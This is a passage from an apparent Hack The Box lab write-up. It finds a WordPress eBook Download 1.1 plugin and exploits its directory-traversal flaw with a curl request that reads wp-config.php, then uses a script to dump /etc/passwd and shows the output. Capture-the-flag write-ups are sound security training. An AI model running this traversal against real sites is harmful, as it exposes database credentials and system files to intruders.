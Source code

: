 As we try some paths we discover some directories we found that  *wp-content/plugins* exist and we found one plugin called "ebook-download".

We can search for Wordpress eBook plugin vulnerabilities.
```bash
searchsploit "wordpress ebook"
```
Output:
```
WordPress Plugin eBook Download 1.1 - Directory Traversal
.
.
.
```
We had found that the 1.1 ebook version is vulnerable to a Directory Traversal attack.

At */wp-content/plugins/ebook-download/readme.txt* we see the line "Stable tag: 1.1". We can assume that our plugin is running 1.1 version.

We mirror the exploit:
```bash
searchsploit -m 39575
```

If we inspect the file we can find the PoC:
```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

If we try to run with curl the PoC:
```bash
curl http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
We got a response!
Now we got a Directory Traversal explotable vulnerability.


### Automatizing Directory Transversal

We created a [bash script][Bash script dt] to dowload and show all the files we want.
We can list users:
```bash
./dt /etc/passwd
```
Output:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
```

[screen man]: https://linux.die.net/man/1/screen
[Bash script dt]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/dt.sh
[Bash script list]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/list_process.sh
[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver
[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581
[port1337]: https://www.speedguide.net/port.php?port=1337
